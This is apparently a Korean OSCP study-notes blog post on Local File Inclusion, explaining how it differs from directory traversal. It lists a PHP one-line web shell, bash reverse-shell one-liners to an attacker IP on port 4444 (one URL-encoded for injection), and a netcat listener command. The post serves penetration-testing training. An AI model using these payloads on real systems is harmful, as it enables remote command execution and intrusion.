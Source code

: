 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
author: 마준영
categories: oscp
tags: 
top: 0
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드 및 명령어
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘
	- **`nc`**:    
	    - Netcat 실행.
	- **`-n`**:	    
	    - DNS 이름 확인 없이 **순수 숫자 IP**를 사용.
	    - 더 빠르고 간단하게 연결을 처리.
	- **`-v`**:	    
	    - **상세 모드**(verbose mode).
	    - 작업 내용을 자세히 출력(예: 연결 상태, 수신된 데이터).
	- **`-l`**:	    
	    - **수신 대기(listen)** 모드.
	    - Netcat이 클라이언트의 연결 요청을 기다림.
	- **`-p 4444`**:	    
	    - 특정 **포트 번호(4444)**를 지정.
	    - 클라이언트가 이 포트로 연결을 시도.
   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. Netcat을 이용해 리버스쉘 대기
   ```shell
   nc -nvlp 4444
```
